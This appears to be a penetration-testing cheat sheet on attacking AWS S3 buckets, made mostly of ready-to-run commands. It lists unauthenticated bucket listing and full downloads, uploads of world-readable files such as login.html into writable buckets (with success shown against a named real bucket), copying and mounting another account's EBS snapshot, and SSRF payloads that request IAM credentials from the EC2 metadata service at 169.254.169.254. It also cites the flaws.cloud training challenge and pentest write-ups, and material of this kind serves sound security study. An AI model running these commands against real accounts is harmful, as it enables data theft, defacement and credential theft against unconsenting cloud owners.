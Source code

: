 # Amazon Bucket S3 AWS

## Summary

- [AWS Configuration](#aws-configuration)
- [Open Bucket](#open-bucket)
- [Basic tests](#basic-tests)
	- [Listing files](#listing-files)
	- [Move a file into the bucket](move-a-file-into-the-bucket)
	- [Download every things](#download-every-things)
	- [Check bucket disk size](#check-bucket-disk-size)
- [AWS - Extract Backup](#aws---extract-backup)
- [Bucket juicy data](#bucket-juicy-data)


## AWS Configuration

Prerequisites, at least you need awscli

```bash
sudo apt install awscli
```

You can get your credential here https://console.aws.amazon.com/iam/home?#/security_credential
but you need an aws account, free tier account : https://aws.amazon.com/s/dm/optimization/server-side-test/free-tier/free_np/

```javascript
aws configure
AWSAccessKeyId=[ENTER HERE YOUR KEY]
AWSSecretKey=[ENTER HERE YOUR KEY]
```

```javascript
aws configure --profile nameofprofile
```

then you can use *--profile nameofprofile* in the aws command.

Alternatively you can use environment variables instead of creating a profile.

```bash
export AWS_ACCESS_KEY_ID=ASIAZ[...]PODP56
export AWS_SECRET_ACCESS_KEY=fPk/Gya[...]4/j5bSuhDQ
export AWS_SESSION_TOKEN=FQoGZXIvYXdzE[...]8aOK4QU=
```

## Open Bucket

By default the name of Amazon Bucket are like http://s3.amazonaws.com/[bucket_name]/, you can browse open buckets if you know their names

```bash
http://s3.amazonaws.com/[bucket_name]/
http://[bucket_name].s3.amazonaws.com/
http://flaws.cloud.s3.amazonaws.com/
```

Their names are also listed if the listing is enabled.

```xml
<ListBucketResult xmlns="http://s3.amazonaws.com/doc/2006-03-01/">
<Name>adobe-REDACTED-REDACTED-REDACTED</Name>
```

Alternatively you can extract the name of inside-site s3 bucket with `%C0`. (Trick from https://twitter.com/0xmdv/status/1065581916437585920)

```xml
http://example.com/resources/id%C0

eg: http://redacted/avatar/123%C0
```

## Basic tests

### Listing files

```bash
aws s3 ls s3://targetbucket --no-sign-request --region insert-region-here
aws s3 ls s3://flaws.cloud/ --no-sign-request --region us-west-2
```

You can get the region with a dig and nslookup

```bash
$ dig flaws.cloud
;; ANSWER SECTION:
flaws.cloud.    5    IN    A    52.218.192.11

$ nslookup 52.218.192.11
Non-authoritative answer:
11.192.218.52.in-addr.arpa name = s3-website-us-west-2.amazonaws.com.
```

### Move a file into the bucket

```bash
aws s3 cp local.txt s3://some-bucket/remote.txt --acl authenticated-read
aws s3 cp login.html s3://$bucketName --grants read=uri=http://acs.amazonaws.com/groups/global/AllUsers
```

```bash
aws s3 mv test.txt s3://hackerone.marketing
FAIL : "move failed: ./test.txt to s3://hackerone.marketing/test.txt A client error (AccessDenied) occurred when calling the PutObject operation: Access Denied."

aws s3 mv test.txt s3://hackerone.files
SUCCESS : "move: ./test.txt to s3://hackerone.files/test.txt"
```

### Download every things

```powershell
aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/ . --no-sign-request --region us-west-2
```

### Check bucket disk size

Use `--no-sign` for un-authenticated check.

```powershell
aws s3 ls s3://<bucketname> --recursive  | grep -v -E "(Bucket: |Prefix: |LastWriteTime|^$|--)" | awk 'BEGIN {total=0}{total+=$3}END{print total/1024/1024" MB"}'
```

## AWS - Extract Backup

```powershell
$ aws --profile flaws sts get-caller-identity
"Account": "XXXX26262029",


$ aws --profile profile_name ec2 describe-snapshots
$ aws --profile flaws ec2 describe-snapshots --owner-id XXXX26262029 --region us-west-2
"SnapshotId": "snap-XXXX342abd1bdcb89",

Create a volume using snapshot
$ aws --profile swk ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id  snap-XXXX342abd1bdcb89
In Aws Console -> EC2 -> New Ubuntu
$ chmod 400 YOUR_KEY.pem
$ ssh -i YOUR_KEY.pem  ubuntu@ec2-XXX-XXX-XXX-XXX.us-east-2.compute.amazonaws.com

Mount the volume
$ lsblk
$ sudo file -s /dev/xvda1
$ sudo mount /dev/xvda1 /mnt
```

## Bucket juicy data

Amazon exposes an internal service every EC2 instance can query for instance metadata about the host. If you found an SSRF vulnerability that runs on EC2, try requesting :

```powershell
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/user-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/IAM_USER_ROLE_HERE will return the AccessKeyID, SecretAccessKey, and Token
http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance
```

For example with a proxy : http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws/

## References

* [There's a Hole in 1,951 Amazon S3 Buckets - Mar 27, 2013 - Rapid7 willis](https://community.rapid7.com/community/infosec/blog/2013/03/27/1951-open-s3-buckets)
* [Bug Bounty Survey - AWS Basic test](https://twitter.com/bugbsurveys/status/859389553211297792)
* [flaws.cloud Challenge based on AWS vulnerabilities - by Scott Piper of Summit Route](http://flaws.cloud/)
* [flaws2.cloud Challenge based on AWS vulnerabilities - by Scott Piper of Summit Route](http://flaws2.cloud)
* [Guardzilla video camera hardcoded AWS credential - 0dayallday.org](https://www.0dayallday.org/guardzilla-video-camera-hard-coded-aws-credentials/)
* [AWS PENETRATION TESTING PART 1. S3 BUCKETS - VirtueSecurity](https://www.virtuesecurity.com/aws-penetration-testing-part-1-s3-buckets/)
* [AWS PENETRATION TESTING PART 2. S3, IAM, EC2 - VirtueSecurity](https://www.virtuesecurity.com/aws-penetration-testing-part-2-s3-iam-ec2/)
* [A Technical Analysis of the Capital One Hack - CloudSploit - Aug 2 2019](https://blog.cloudsploit.com/a-technical-analysis-of-the-capital-one-hack-a9b43d7c8aea?gi=8bb65b77c2cf)
